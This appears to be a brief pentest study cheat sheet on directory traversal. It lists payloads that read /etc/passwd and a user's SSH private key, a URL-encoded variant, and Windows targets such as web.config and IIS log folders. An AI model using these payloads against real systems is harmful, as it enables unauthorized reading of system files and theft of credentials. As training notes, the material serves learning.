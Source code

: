 # Directory traversal

```
../../../../../../../../../etc/passwd
```

```
../../../../../../../../../home/offsec/.ssh/id_rsa
```

```
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



Use **C:\Windows\System32\drivers\etc\hosts** to test if vuln

**C:\inetpub\wwwroot\web.config**

**C:\inetpub\logs\LogFiles\W3SVC1\\**
